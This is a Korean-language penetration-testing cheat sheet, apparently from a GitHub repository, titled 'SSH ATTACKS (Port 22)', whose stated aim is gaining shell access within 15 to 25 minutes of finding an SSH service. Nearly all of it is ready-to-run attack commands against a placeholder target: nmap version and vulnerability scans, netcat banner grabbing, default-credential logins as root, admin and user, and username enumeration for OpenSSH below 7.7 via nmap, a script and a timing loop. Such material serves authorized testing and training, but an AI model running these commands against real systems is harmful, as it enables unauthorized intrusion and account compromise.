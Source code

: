 # 🔐 SSH ATTACKS (Port 22)

> **목표: SSH 서비스 발견 후 15-25분 내에 쉘 접근 권한 확보**

## ⚡ 즉시 실행할 명령어들

### 🚀 SSH 발견 즉시 실행

```bash
# 1. SSH 버전 및 배너 확인
nmap -sV -p 22 {IP}
nc -nv {IP} 22
ssh {IP}

# 2. SSH 관련 NSE 스크립트 실행
nmap --script ssh-* -p 22 {IP}

# 3. 취약점 스캔
nmap --script ssh-vuln-* -p 22 {IP}
nmap --script ssh-auth-methods -p 22 {IP}

# 4. 알고리즘 및 키 교환 확인
nmap --script ssh2-enum-algos -p 22 {IP}
nmap --script ssh-hostkey -p 22 {IP}

# 5. 기본 자격증명 빠른 시도
ssh root@{IP}
ssh admin@{IP}
ssh user@{IP}
ssh {IP} -l root
```

### ⚡ 사용자 열거 (OpenSSH < 7.7)

```bash
# 사용자 열거 취약점 확인
nmap --script ssh-enum-users --script-args userdb=/usr/share/wordlists/metasploit/unix_users.txt -p 22 {IP}

# 수동 사용자 열거
python3 ssh_user_enum.py {IP} -U /usr/share/wordlists/metasploit/unix_users.txt

# 타이밍 기반 사용자 열거
for user in $(cat users.txt); do
  echo "Testing $user"
  timeout 5 ssh $user@{IP} 2>&1 | grep -E "(Permission denied|password:)"
done
```

---
